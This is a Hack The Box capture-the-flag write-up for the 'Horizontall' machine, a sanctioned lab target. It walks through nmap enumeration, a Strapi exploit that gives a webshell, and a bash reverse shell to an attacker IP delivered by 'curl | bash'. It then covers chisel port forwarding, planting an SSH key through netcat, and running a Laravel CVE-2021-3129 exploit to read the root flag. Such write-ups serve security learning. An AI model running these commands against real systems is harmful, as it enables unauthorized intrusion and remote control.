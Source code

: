 ```yaml
---
title: Horizontall Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration 

```ruby
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 ee774143d482bd3e6e6e50cdff6b0dd5 (RSA)
|_ 256 3ad589d5da9559d9df016837cad510b0 (ECDSA)
|_ 256 4a0004b49d29e7af37161b4f802d9894 (ED25519)
80/tcp open http nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.56 seconds
```

We see that it redirects us to horizontall.htb, so we add it to `/etc/hosts

Investigating the page, we see that it has nothing.

We are going to put a dirsearch and we only find `/js, /css and /html`, so we are going to investigate it. 

## User exploit

we are going to make a curl to the page to see it pretty

```shell
curl -s -X GET "http://horizontall.htb" | htmlq -p | cat -l html
```

we see several .js scripts, but specifically the `app-c68eb462.js` reports a new .htb page using the grep parameter:

```shell
curl -s -X GET "http://horizontall.htb//js/app.c68eb462.js" | grep "\.htb" 
```

so let's add it to /etc/hosts and investigate it. At first we don't see anything. Let's put a dirbuster on it

We find a `/admin`, but trying to put a sqli, we have no luck, so we are going to look for an exploit for Strapi.

We find one that when we run it gives us a webhsell, which we can use to send us a reverse shell, but first we are going to send us a package:

```bash
sudo tcpdump -i tun0 icmp
```

but first we have to create the index.html file inside X directory:

```shell
/bin/bash
bash -i >&/dev/tcp/10.10.14.62/1234 0>&1
```

we create a python sv in that directory 

and then we do a curl to that file from the victim machine

```shell
curl http://10.10.14.62 | bash
```

and in this way we get a reverse shell.

## Root exploitation

if we do a 
```shell
netstat -nat 
```
we can see that we have port 8000 open, so we can do Remote Port Forwarding (RPF) with chissel:

We download chissel and install it:

```shell
go build -ldflags "-s -w"
```

We set up a chisel server on our machine:

```shell
./chisel server -p 9999 --reverse
```

and one as a client on the victim:

```shell
./chisel client 10.10.14.62:9999 R:8000:127.0.0.1:8000
```

As this gives us error (glibc6_2.34 is missing) we are going to do it using this command, but first we pass our id_rsa to the victim machine to be able to connect via ssh.

```shell
ssh-keygen
nc -nlvp 1234 < /home/viksant/.ssh/id_rsa.pub (local)
nc -nv 10.10.14.62 1234 > authorized_keys
chmod 600 authorized_keys
```

```shell
ssh -i strapi -L 8000:localhost:8000 strapi@horizontall.htb
```

and we can see a Laravel v8, which is exploitable.

We download `` nth347 /CVE-2021-3129_exploit `` 

and run it:

```shell
 python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'cat /root/root.txt'
```

and we can see the root.txt flag.
